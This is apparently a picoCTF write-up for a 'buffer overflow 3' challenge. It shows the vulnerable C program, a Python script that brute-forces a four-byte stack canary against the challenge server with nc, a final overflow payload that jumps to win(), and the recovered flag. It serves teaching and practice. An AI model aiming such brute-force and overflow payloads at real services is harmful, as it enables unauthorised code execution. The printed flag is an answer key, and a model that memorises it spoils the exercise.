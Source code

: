**Description**

Author: Sanjay C / Palash Oswal

Do you think you can bypass the protection and get the flag?

Hints
(None)

**Tools**

This writeup is a continuation of the challenges [bufferoverflow0](./bufferoverflow0(100).md) and [bufferoverflow1](./bufferoverflow1(200).md) you may want to see these to gain insights into how a basic buffer overflow attack works. Reading the [bufferoverflow2](./bufferoverflow2(300).md) writeup may be helpful as well, though shouldn't be necessary for this writeup as it deals with function arguments which aren't relevant to this challenge.

In this writeup and subsequent binary exploitation writeups, I will be using the tools [Ghidra](https://github.com/NationalSecurityAgency/ghidra), [GDB](https://en.wikipedia.org/wiki/GNU_Debugger), and an extension for GDB called [pwndbg](https://github.com/pwndbg/pwndbg).
This tools together provide excellent static and dynamic analysis of a binary. 
Another tool to look at is radare2, however I did not use it for this writeup.
This competition is an excellent place to learn how to use these programs, however I will not be teaching them in entirety.

**Research**

Opening the source file gives us:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

Reading this code, we can see an aditional aspect to the challenge. Not only is there a function we need to jump into, but there is a [canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection) that we need to deal with. This Canary protection is something new to the challenge, and is often an issue that those in real world scenarios need to deal with as a compiler will often add some sort of canary to variables in memory.

**Theory**

Now, what is a Canary? A canary protection, not the bird, is a type of buffer overflow protection method that detects if a buffer overflow has taken place. It is a place in memory often after your variable that detects if it is overwritten. Some canaries are only null bytes and it is a trivial bypass, however some are more complex. If you can know what the canary is, you can step around it by writing the same value to it as it had previously and then overwriting what you want to overwrite. The difficulty is finding what the canary is if it isn't ```0x00``` null bytes.

Not only is there a canary, but there looks to be multiple lines of input here. There is a thing that asks how many lines of input you want to enter. This doesn't seem to negate a buffer overflow however, if you tell it that you want to write more characters into the buffer than the buffer can accept it will still do that. However, later down the line as we want to start exploiting, our previous method of using a single line of python code to generate an input may need to be replaced with a more robust way to input data to a program.

**Input multiple lines**

To input multiple entries of data into a program, you can use an input file with the stored data. For example, if a program asks you for your first name, and then it asks you for your last name it you can feed it a file with each input on a seperate line. You can then use python to print to this file that you then feed to the program.

I.e
```python
print("1st input")
print("2nd input")
```

Then in the terminal you could type

```
python2 in.py > in.txt
```

Finally, you could pass that input file into your program

```
./program < in.txt
```

**Bypass canary**

This canary as seen in the program has a CANARY_SIZE of 4, this means that it is 4 characters or 4 bytes long. This could be 256^4=4294967296 possibilities. That number coudn't be brute forced. So, how do we do this? Remember the thing that asks how many characters you want to input? Well, we could enter the bytes of the canary one by one, couldn't we? If we overwrite only 1 byte of the canary, we can brute force that single byte individually without touching the rest which leaves our overflow undetected, and then move onto the next one. This input size number that we add could do this for us. This would make our number of possible tries down to 256\*4=1024 possibilites which is absolutely doable if automated.

Lets get the canary then with a python script
```python
import os

canary = ""
buffersize = 64

for i in range(0, 255):
  length = buffersize + len(canary) + 1
  string = "a"*buffersize + canary + chr(i)
  print(chr(i))
  
  with open("in", "w") as file:
    out = [str(length) + "\n", string + "\n"]
    file.writelines(out)
    
  os.system("nc saturn.picoctf.net 61528 < in")
```

If we run this the input that doesn't detect stack smashing is the next letter of the canary
Add this to the canary string, and then continue until you have all 4 characters in the canary

The canary I found was: ```BiRd```

**Exploit**

This is a very similar exploit to the [bufferoverflow1](./binary/bufferoverflow1(200).md) problem.

First, make in.py, the input length number doesn't matter anymore as we now have the canary

```python
print(200)
print("a"*64 + "BiRd")
```

Lets double check that this all works first

```python2 in.py > in```

```gdb vuln```

```r < in```

This shouldn't return any errors and exit normally.

It works, so lets continue.

Lets find where we need to enter to get into the win() by overwriting EIP

```
pwndbg> p *(win)
$1 = {<text variable, no debug info>} 0x8049336 <win>
```

win() is in ```0x8049336```

That offset turns out to have 16 bytes in between the canary and EIP.

Lets buld the exploit then

```python
print(200)
print("a"*64 + "BiRd" + "b"*16 + "\x36\x93\x04\x08")
```

```python2 in.py > in```

```gdb vuln```

```r < in```

It works, it gets us our test flag!

Testing it outside of gdb

```./vuln < in```

This works, lets continue to the server

```nc saturn.picoctf.net 61528 < in```

We have the flag!
It was: ```picoCTF{Stat1C_c4n4r13s_4R3_b4D_78734aff}```

